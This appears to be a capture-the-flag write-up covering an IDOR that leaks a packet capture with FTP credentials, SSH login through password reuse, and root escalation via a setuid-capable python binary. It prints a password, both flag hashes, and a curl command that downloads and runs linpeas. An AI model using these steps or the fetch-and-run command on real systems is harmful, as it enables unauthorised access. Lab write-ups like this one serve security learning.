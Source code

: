 ```yaml
---
sticker: emoji//1f9e2
---
```


# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

We have three open ports, let's begin with reconnaissance.

# RECONNAISSANCE
---
![](Pasted image 20250107160531.png)

This is the standard page, we have `Dashboard`, `Security Snapshot` `Ip Config` `Network Status`, let's check each of those:

![](Pasted image 20250107160748.png)

Security snapshot takes us to another URL, if we click download, we are able to get a `7.pcap` file, if we use wireshark to analyze that, it's empty, so, let's keep searching in order to find anything useful:

![](Pasted image 20250107161541.png)

We have an Ip section, nothing rare, let's keep searching:

![](Pasted image 20250107161617.png)

Also a netstat section, nothing seems off too, 

```ad-hint

That's when I realized that when we enter the security snapshot section, we get redirected to a `/data/number` URL, so, I thought that if an IDOR vulnerability is there on the website, we may be able to read another scans, I used burp and it was indeed true, that's when I got that scan `5` had the following:

![](Pasted image 20250107162125.png)


Now we have packets to read! Let's download the file and analyze it with wireshark:

![](Pasted image 20250107162221.png)

```


# EXPLOITATION
---


Nothing useful came from this. That's when I kept searching and found the `/data/0` file, let's analyze it:

![](Pasted image 20250107163040.png)

We found something useful!

A ftp string, let's follow it:

![](Pasted image 20250107163123.png)

Nice, we got some credentials, let's log into `nathan` user:

```ad-note
`nathan`: `Buck3tH4TF0RM3!`
```

![](Pasted image 20250107163428.png)

We got access, we can see a `user.txt` flag, let's get it and read it:

![](Pasted image 20250107163514.png)

User flag is `f763e899654614af8d5f2e6a886516a0`

I thought than since that password works for ftp, some users tend to have the same password in different services, so, let's try to log into ssh with those credentials:

![](Pasted image 20250107163700.png)

I was right, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---

We can not use sudo on this machine with nathan user:

![](Pasted image 20250107163815.png)


Let's use linpeas in this machine and check what it got for us:

![](Pasted image 20250107164042.png)

We can use curl in the machine, so, we can perform: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

![](Pasted image 20250107164142.png)

Nice, when linpeas finishes, we can see the following:

![](Pasted image 20250107164513.png)

This is the binary we'll use in order to perform PE, I asked chatgpt and it said we must do the following steps:

```ad-summary
1. `/usr/bin/python3.8`
2. `import os`
3. `os.setuid(0)` (As this is root ID)
4. `os.system("bash")`

#### PoC
----
![](Pasted image 20250107165038.png)

We can also see this procedure in Gtfobins:

![](Pasted image 20250107165210.png)

```

Just like that, CTF is done, let's read root flag and submit it:

![](Pasted image 20250107165111.png)

Root: `bb58eed72cb4312008e7262c59c17d7b`

Gg!


